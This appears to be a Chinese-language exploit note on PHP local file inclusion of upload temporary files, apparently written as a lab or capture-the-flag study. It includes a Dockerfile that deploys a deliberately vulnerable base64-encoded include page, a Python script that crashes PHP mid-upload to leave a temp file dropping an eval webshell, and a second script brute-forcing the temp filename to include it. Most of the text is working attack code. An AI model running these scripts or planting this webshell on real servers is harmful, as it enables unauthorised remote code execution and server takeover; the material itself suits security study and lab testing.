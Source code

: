 # 包含临时文件

#### 参考

- https://www.jianshu.com/p/dfd049924258
- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

[利用core dumped错误可以实现](PHP7的2个core_dumped错误.md)

## 环境

因为php在最新的php7.X中对2各core_dumped都进行修复了。所以我们从php官网手动下载php小版本进行测试。
所以就用Docker制作了php7210的环境然后commit并push到dockerhub上了，名字为：`j7ur8/php7012_apache2:origin`

```bash
FROM j7ur8/php7012_apache2:origin

RUN rm  /usr/local/apache2/htdocs/index.php


RUN echo 'PD9waHAKICAoJF89QCRfR0VUWydvcmFuZ2UnXSkgJiYgQHN1YnN0cihmaWxlKCRfKVswXSwwLDYpID09PSAnQDw/cGhwJyA/IGluY2x1ZGUoJF8pIDogaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOw==' | base64 -d > /usr/local/apache2/htdocs/index.php
RUN chmod -R 777 /usr/local/apache2/htdocs

CMD /usr/local/apache2/bin/apachectl -k start & /bin/bash -c "while true;do echo hello docker;sleep 1;done"
```

## 利用

![](/images/19-6-15_PHP_包含临时文件1.png)
利用思路就是在文件上传时，使php停止运行。这时就不会删除临时文件。而生成的临时文件的数量是可控的。所以我们可以通过爆破得到shell文件。

#### payload

作者写的利用脚本

```python
import requests
import string

charset = string.digits + string.letters

host = "172.20.10.5"
port = 82
base_url = "http://%s:%d" % (host, port)


def upload_file_to_include(url, file_content):
    files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
    except Exception as e:
        print e


def generate_tmp_files():
    webshell_content = '<?php eval($_REQUEST[c]);?>'.encode(
        "base64").strip().encode("base64").strip().encode("base64").strip()
    file_content = '<?php if(file_put_contents("/tmp/ssh_session_HD89q2", base64_decode("%s"))){echo "flag";}?>' % (
        webshell_content)
    phpinfo_url = base_url+"/index.php?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"
    length = 6
    times = len(charset) ** (length / 2)
    for i in xrange(times):
        print "[+] %d / %d" % (i, times)
        upload_file_to_include(phpinfo_url, file_content)


def main():
    generate_tmp_files()


if __name__ == "__main__":
    main()
```

爆破文件名
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string

charset = string.digits + string.letters

host = "172.20.10.5"
port = 82
base_url = "http://%s:%d" % (host, port)


def brute_force_tmp_files():
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = i + j + k + l + m + n
                            url = "%s/index.php?orange=/tmp/php%s" % (
                                base_url, filename)
                            print url
                            try:
                                response = requests.get(url)
                                if 'flag' in response.content:
                                    print "[+] Include success!"
                                    return True
                            except Exception as e:
                                print e
    return False


def main():
    brute_force_tmp_files()

if __name__ == "__main__":
    main()
```